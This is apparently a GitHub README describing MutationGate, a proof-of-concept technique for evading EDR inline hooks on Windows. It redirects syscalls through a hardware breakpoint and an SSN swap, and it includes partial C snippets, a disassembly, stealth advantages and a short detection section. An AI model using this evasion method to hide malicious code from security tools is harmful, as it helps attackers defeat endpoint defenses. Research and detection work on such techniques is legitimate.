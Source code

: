 # MutationGate
MutationGate is a new approach to bypass EDR's inline hooking by utilizing hardware breakpoint to redirect the syscall.

It works by calling an unhooked NTAPI and replacing the unhooked NTAPI's SSN with hooked NTAPI's. In this way, the syscall is redirected to the hooked NTAPI's, and the inline hook can be bypassed without loading the 2nd ntdll module or modifying bytes within loaded ntdll's memory space. 

The provided project is only a `POC`, not a comprehensive implementation. For instance, you could use this approach to set hardware breakpoints for a set of functions. 

The function can also be WIN32API. For instance, we can set the 1st hbp at `DrawText` to redirect the execution to `NtDrawText`, and the 2nd hbp replaces the SSN saved in RAX. In this way, module `kernel32.dll` is not skipped, and the call stack looks more legitimate. 

## Description
EDR tends to set inline hooks for various NTAPI, especially those are usually leveraged in malware, such as `NtAllocVirtualMemory`, `NtOpenProcess`, etc. While other NTAPI that are not usually leveraged in malware tend not to have inline hook, such as `NtDrawText`. It is very unlikely that an EDR set inline hook for all NTAPI.   

Assume NTAPI `NtDrawText` is not hooked, while NTAPI `NtQueryInformationProcess` is hooked, the steps are as follows:

1. Get the address of `NtDrawText`. It can be achieved by utilizing `GetModuleHandle` and `GetProcAddress` combination, or a custom implementation of them via PEB walking.
```c
  pNTDT = GetFuncByHash(ntdll, 0xA1920265);	//NtDrawText hash
  pNTDTOffset_8 = (PVOID)((BYTE*)pNTDT + 0x8);	//Offset 0x8 from NtDrawText
```
2. Prepare arguments for `NtQueryInformationProcess`
3. Set a hardware breakpoint at `NtDrawText+0x8`, when the execution reaches this address, SSN of `NtDrawText` is saved in RAX, but syscall is not called yet.

```windbg
0:000> u 0x00007FFBAD00EB68-8
ntdll!NtDrawText:
00007ffb`ad00eb60 4c8bd1          mov     r10,rcx
00007ffb`ad00eb63 b8dd000000      mov     eax,0DDh
00007ffb`ad00eb68 f604250803fe7f01 test    byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffb`ad00eb70 7503            jne     ntdll!NtDrawText+0x15 (00007ffb`ad00eb75)
00007ffb`ad00eb72 0f05            syscall
00007ffb`ad00eb74 c3              ret
00007ffb`ad00eb75 cd2e            int     2Eh
00007ffb`ad00eb77 c3              ret
```
4. Retrieve the SSN of `NtQueryInformationProcess`. Inside the exception handler, update RAX with NtQueryInformationProcess' SSN. I.e., the original SSN was replaced.
```c
...<SNIP>...
PVOID GetFuncByHash(IN HMODULE hModule, uint32_t Hash)
{
	PBYTE pBase = (PBYTE)hModule;
	PIMAGE_DOS_HEADER	pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
	if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return NULL;
	PIMAGE_NT_HEADERS	pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
	if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
		return NULL;

	IMAGE_OPTIONAL_HEADER	ImgOptHdr = pImgNtHdrs->OptionalHeader;
	PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
	PDWORD FunctionNameArray = (PDWORD)(pBase + pImgExportDir->AddressOfNames);
	PDWORD FunctionAddressArray = (PDWORD)(pBase + pImgExportDir->AddressOfFunctions);
	PWORD  FunctionOrdinalArray = (PWORD)(pBase + pImgExportDir->AddressOfNameOrdinals);
	for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++) 
	{
		CHAR* pFunctionName = (CHAR*)(pBase + FunctionNameArray[i]);
		PVOID pFunctionAddress = (PVOID)(pBase + FunctionAddressArray[FunctionOrdinalArray[i]]);
		if (Hash == ROR13Hash(pFunctionName)) 
		{
			return pFunctionAddress;
		}
	}
	return NULL;
}
...<SNIP>...
```
5. Since we called `NtDrawText` but with `NtQueryInformationProcess`' arguments, the call should be failed. However, since we changed the SSN, the syscall is successful. 
```c
		fnNtQueryInformationProcess pNTQIP = (fnNtQueryInformationProcess)pNTDT;
		NTSTATUS status = pNTQIP(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);	
```


## Example

![example](screenshot/poc.png)

In this example, NtDrawtext's SSN is `0xdd`, `NtQueryInformationProcess`' SSN is `0x19`, the address of NtDrawText is `0x00007FFBAD00EB60`

The call is made to NtDrawText's address, but with NtQueryInformationProcess. Since the SSN is changed from `0xdd` to `0x19`, the syscall is successful.

## Disclaimer
1. MutationGate is not an extension or variant of various Gate. Because those Gate focus more on retrieving SSN of NTAPI, MutationGate focuses on bypassing the inline hook in NTAPI.
2. MutationGate is able to bypass inline hook in NTAPI, however, the individual technique does not guarantee to bypass EDR, because EDR has multiple detection dimensions, inline hook is one of them.
3. The project is a POC, not a complete and comprehensive implementation.



## Advantages of MutationGate Approach
So far, some classic and common approaches to bypass EDR's inline hook include but are not limited to the following approaches:
1. Load the 2nd ntdll module
2. Copy a fresh ntdll's text section to overwrite hooked ntdll's text section
3. Overwrite hooked codes(syscall stub) with fresh code
4. More...

The above techniques involve the modification of loaded ntdll, or loading of the 2nd ntdll. These behaviors could be detected by EDR. 

While MutationGate is not the only approach that untouches loaded ntdll, it does have the advantage of not modifying the loaded ntdll module, which decreases the possibility of getting detected. 

And, it is very simple, no need to modify other registers, etc.


## Detection
It is possible to detect MutationGate technique.

1. The `AddVectoredExceptionHandler` call could look suspicious in a normal program.
2. In the POC, NTAPI is called directly, which could be weird in a normal program. However, it can be resolved by adding 1 more hardware breakpoint at `DrawText`, directing the execution to `NtDrawText` and triggering the 2nd hardware breakpoint that replaces SSN.
3. Call stack in kernel space could reveal clues.

## Credits and References
<https://cyberwarfare.live/bypassing-av-edr-hooks-via-vectored-syscall-poc/>

<https://redops.at/en/blog/syscalls-via-vectored-exception-handling>

<https://gist.github.com/CCob/fe3b63d80890fafeca982f76c8a3efdf>

<https://malwaretech.com/2023/12/silly-edr-bypasses-and-where-to-find-them.html>

Maldev Academy

## Other Approaches Utilized Hardware Breakpoint
<https://github.com/Dec0ne/HWSyscalls>

<https://github.com/rad9800/TamperingSyscalls>

<https://github.com/RedTeamOperations/VEH-PoC>
